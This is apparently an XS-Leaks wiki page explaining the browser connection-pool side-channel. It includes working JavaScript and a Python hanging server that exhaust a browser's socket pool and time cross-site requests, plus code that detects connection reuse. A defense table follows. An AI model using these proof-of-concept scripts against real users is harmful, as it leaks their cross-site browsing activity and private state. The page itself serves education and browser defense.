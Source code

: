 +++
title = "Connection Pool"
description = ""
date = "2020-10-01"
category = "Attack"
abuse = [
    "Connection Pool",
    "Browser Limits",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
]
menu = "main"
+++

Another way to measure the network timing of a request consists of abusing the socket pool of a browser [^1]. Browsers use sockets to communicate with servers. As the operating system and the hardware it runs on have limited resources, browsers have to impose a limit.

To exploit the existence of this limit, attackers can:
1. Check what the limit of the browser is, for example 256 global sockets for TCP and 6000 global sockets for UDP. [^2][^7]
2. Block {{< katex>}}255{{< /katex >}} sockets for a long period of time by performing {{< katex>}}255{{< /katex >}} requests to different hosts that simply hang the connection
```javascript
// Client
for(let i=0; i<255; i++) fetch('https://'+i+'.example.com/', {mode: "no-cors", cache: "no-store"});
```
```python
# Server
from http.server import BaseHTTPRequestHandler, HTTPServer
import time

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        time.sleep(float(100000))
        self.send_response(200)
        self.send_header('Cache-Control', 'no-store')
        self.end_headers()

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```
4. Use the {{< katex>}}256^{th}{{< /katex >}} socket by performing a request to the target page.
5. Perform a {{< katex>}}257^{th}{{< /katex >}} request to another host. Since all the sockets are being used (in steps 2 and 3), this request must wait until the pool receives an available socket. This waiting period provides the attacker with the network timing of the {{< katex>}}256^{th}{{< /katex >}} socket, which belongs to the target page. This works because the {{< katex>}}255{{< /katex >}} sockets in step 2 are still blocked, so if the pool received an available socket, it was caused by the release of the socket in step 3. The time to release the {{< katex>}}256^{th}{{< /katex >}} socket is directly connected with the time taken to complete the request.
```javascript
performance.clearResourceTimings();
await fetch(location.href, {cache: "no-store"});
await new Promise(r => setTimeout(r, 1000));
let data = performance.getEntries().pop();
let type = (data.connectStart === data.startTime) ? 'reused' : 'new';
console.log('Time spent: ' + data.duration + ' on ' + type + ' connection.');
```

## Connection reuse
With HTTP/1.1 (TCP) and HTTP/2 (TCP) and HTTP/3 (UDP) requests may reuse an existing connection for a host to improve performance. [^3][^4]
Since a reused connection is normally faster this could allow for detecting if a site has connected to a host excluding anything that’s been cached and leaking information about the cross-site request by abusing Stream prioritization and HPACK compression. [^5]
Connections may get closed if they are left idle or the sockets are exhausted, for example 256 connections for HTTP/2 or 30 seconds idle for HTTP/3. [^2][^6]
This may also leak when the connection happened and the browser can have per connection limits and on how many connections are allowed per host, for example 6 connections per host. [^2]
```javascript
// Detect if a HTTP/3 request was made to a certain host in the last 20 seconds.
await new Promise(r => setTimeout(r, 10000));

// Check for connection reuse for when there’s a Timing-Allow-Origin header.
async function isConnected(url) {
    performance.clearResourceTimings();
    try {
        await fetch(url, {
            cache: "no-store",
            credentials: "include"
        });
    } catch {}
    await new Promise(r => setTimeout(r, 1000));
    let data = performance.getEntries().pop();
    // Allowed to read timing information.
    // Same-origin or the Timing-Allow-Origin header.
    console.log("Protocol: " + data.nextHopProtocol);
    return (data.connectStart === data.startTime);
}

// Check for connection reuse for when there’s no Timing-Allow-Origin header.
async function isConnected2(url, max = 50) {
    let start = performance.now();
    try {
        await fetch(url, {
            cache: "no-store",
            method: "POST",
            mode: "cors",
            credentials: "include"
        });
    } catch {}
    let duration = performance.now() - start;
    
    let start2 = performance.now();
    try {
        await fetch(url, {
            cache: "no-store",
            method: "POST",
            mode: "cors",
            credentials: "include"
        });
    } catch {}
    let duration2 = performance.now() - start2;
    return (duration - duration2 < max);
}

await isConnected2('https://example.com/404');
```

## Defense

| [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) | [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}}) |
| :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :-------------------------------------------------------------------: |
|                                         ❌                                          |                          ❌                          |                                 ❌                                 |                                   ❌                                   |


{{< hint info >}}
Similar to [partitioned caches]({{< ref "../../defenses/secure-defaults/partitioned-cache.md" >}}), some browsers are considering to extend the principle of "split per site/origin" of resources to [socket pools](https://bugzilla.mozilla.org/show_bug.cgi?id=1572544).
{{< /hint >}}

## References

[^1]: Leak cross-window request timing by exhausting connection pool, [link](https://bugs.chromium.org/p/chromium/issues/detail?id=843157)
[^2]: client_socket_pool_manager.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/socket/client_socket_pool_manager.cc)
[^3]: rfc9113 Connection Reuse, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.9.1.1)
[^4]: rfc9114 Connection Reuse, [link](https://httpwg.org/specs/rfc9114.html#rfc.section.3.3)
[^5]: rfc9113 Remote Timing Attacks, [link](https://httpwg.org/specs/rfc9113.html#rfc.section.10.9)
[^6]: quic_context.h, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/quic/quic_context.h)
[^7]: features.cc, [link](https://source.chromium.org/chromium/chromium/src/+/main:net/base/features.cc)
